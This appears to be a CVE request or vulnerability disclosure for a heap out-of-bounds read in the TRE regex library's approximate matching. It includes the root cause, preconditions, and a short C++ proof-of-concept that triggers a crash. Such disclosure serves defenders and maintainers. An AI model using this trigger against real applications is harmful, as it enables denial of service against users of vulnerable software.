


# CVE Request: TRE approximate regex heap out-of-bounds read

## Vulnerability Topic

Heap out-of-bounds read in TRE approximate regular expression matching for short byte-mode inputs.

## Vendor / GitHub repo

- Vendor: TRE upstream maintainers
- GitHub repository: `laurikari/tre`

## Product Name

TRE regular expression library

## Release Version / Commit Hash / Affected Range

- Tested vulnerable commit: `71bfcaf0af3994384987c6c2679ed7d078ffe189`
- Affected component: approximate matching engine
- Relevant functions: `tre_regaexecb()`, `tre_match_approx()`, `tre_tnfa_run_approx()`
- Affected range: versions containing the same approximate matching implementation. Exact release range should be confirmed by maintainers.
- Github Issues: `https://github.com/laurikari/tre/issues/143`

## Vulnerability Type

Heap-based out-of-bounds read.

## CWE

CWE-125: Out-of-bounds Read

## Summary of Affection

A crafted byte-mode regular expression and short input text can trigger a heap-buffer-overflow read in TRE's approximate matching engine. Applications using TRE approximate matching on untrusted patterns or untrusted text may be crashed, causing denial of service.

## Root Cause

The approximate matcher processes a small byte-mode input and reaches internal state/tag handling where it reads four bytes past a four-byte heap allocation. The root cause appears to be insufficient bounds checking in the approximate matching engine for small inputs and/or small state/tag arrays.

## Attack Preconditions

1. An application uses TRE approximate matching APIs such as `tre_regaexecb()`.
2. The attacker can influence the regular expression, input text, or approximate matching parameters.
3. The application processes the crafted short byte-mode input.
4. No privileges are required unless imposed by the embedding application.

## Impact

Denial of service through process crash. Since this is an out-of-bounds read, adjacent heap memory may be read by the matching engine, but no direct information disclosure has been confirmed. The confirmed security impact is crashing consumers that process untrusted regex/text with approximate matching enabled.

## Affected Code

Approximate matching wrapper path:

```c
int tre_regaexecb(const regex_t *preg, const char *str,
                  regamatch_t *match, regaparams_t params, int eflags) {
    tre_tnfa_t *tnfa = (void *)preg->TRE_REGEX_T_FIELD;
    return tre_match_approx(tnfa, str, -1, STR_BYTE, match, params, eflags);
}
```

Approximate matching engine:

```c
reg_errcode_t tre_tnfa_run_approx(const tre_tnfa_t *tnfa,
                                  const void *string,
                                  ssize_t len,
                                  tre_str_type_t type,
                                  int *match_tags,
                                  regamatch_t *match,
                                  regaparams_t default_params,
                                  int eflags,
                                  int *match_end_ofs)
```

## PoC

Docker reproduction:

```sh
docker build -t poc-tre-approx-heap-oob .
docker run --rm poc-tre-approx-heap-oob
```

Core trigger:

```cpp
std::string pattern(reinterpret_cast<const char *>(input) + 5, 1);
std::string text(reinterpret_cast<const char *>(input) + 6, input_len - 6);

tre_regncompb(&preg, pattern.data(), pattern.size(), REG_EXTENDED);

regamatch_t match;
match.nmatch = 2;
match.pmatch = pmatch;

regaparams_t params;
tre_regaparams_default(&params);
params.max_cost = 7;
params.max_ins = 4;
params.max_del = 4;
params.max_subst = 1;
params.max_err = 9;

tre_regaexecb(&preg, text.c_str(), &match, params, 0);
```

## Expected Result

The approximate matcher should return a match, no-match, or error status without reading outside allocated memory.





## Credit

fa1c4 <azesinter@mail.ustc.edu.cn>